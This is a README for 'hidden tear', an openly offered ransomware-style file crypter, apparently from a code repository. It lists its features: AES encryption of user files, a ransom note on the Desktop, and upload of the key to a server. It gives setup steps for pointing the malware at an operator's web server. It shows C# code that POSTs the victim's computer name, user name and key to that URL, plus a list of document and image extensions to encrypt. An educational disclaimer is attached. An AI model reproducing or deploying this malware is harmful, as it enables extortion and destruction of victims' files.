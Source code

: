          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific educational purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (207 KB)
* Detected by 13/35 antivirus programs (1/08/2016) http://NoDistribute.com/result/yQI70xZO1RfCMjWBAD6tuNFsimLGT3

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server where the info remains. Change this line with your URL. (You better use HTTPS for more security)

  `string targetURL = "http://localhost/info/index.php";`

* The script do the POST request to the server (targetURL). Sending process running in `SendPassword()` function

  ```
  
using (var client = new WebClient())
   {
       var values = new NameValueCollection();
       values["computerName"] = computerName;
       values["userName"] = userName;
       values["password"] = password;
       client.UploadValues(targetURL, "POST", values);
   }
   
  ```
* Example of target file extensions that can be changed:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```

**Example GUI decrypter**

![alt tag](http://i63.tinypic.com/111rwg6.png)


**Article: Destroying The Encryption of Hidden Tear Ransomware** 

http://www.utkusen.com/blog/destroying-the-encryption-of-hidden-tear-ransomware.html

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
